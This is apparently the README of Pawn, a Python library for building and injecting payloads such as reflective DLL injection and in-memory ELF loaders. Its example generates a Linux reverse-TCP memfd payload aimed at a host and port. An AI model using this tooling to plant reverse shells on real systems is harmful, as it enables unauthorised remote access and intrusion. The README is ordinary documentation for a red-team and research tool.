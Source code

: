 # Pawn

[![Developer](https://img.shields.io/badge/developer-EntySec-blue.svg)](https://entysec.com)
[![Language](https://img.shields.io/badge/language-Python-blue.svg)](https://github.com/EntySec/Pawn)
[![Forks](https://img.shields.io/github/forks/EntySec/Pawn?style=flat&color=green)](https://github.com/EntySec/Pawn/forks)
[![Stars](https://img.shields.io/github/stars/EntySec/Pawn?style=flat&color=yellow)](https://github.com/EntySec/Pawn/stargazers)
[![CodeFactor](https://www.codefactor.io/repository/github/EntySec/Pawn/badge)](https://www.codefactor.io/repository/github/EntySec/Pawn)

Pawn is a collection of Python techniques used for crafting, manipulating and injecting payloads.

## Features

* Support for `Windows`, `macOS`, `Linux` and `Apple iOS` payloads.
* Support for such techniques like `Reflective DLL Injection` and `procfs loader`.
* Has modular system which allows you to write your own custom payloads.

## Installation

```
pip3 install git+https://github.com/EntySec/Pawn
```

## Examples

Example of obtaining [ELF procfs loader](https://blog.entysec.com/2023-04-02-remote-elf-loading/) with custom host and port.

```python
from pawn import Pawn

pawn = Pawn()

module = pawn.get_pawn(
    module='linux/x64/reverse_tcp_memfd',
    platfrom='linux',
    arch='x64',
    type='reverse_tcp'
)

module.set('host', '127.0.0.1')
module.set('port', 8888)

payload = pawn.run_pawn(module)
print(len(payload))
```

## Special Thanks

* Some parts of **assembly code for Windows** were ported from free open-source project [Metasploit Framework](https://github.com/rapid7/metasploit-framework).
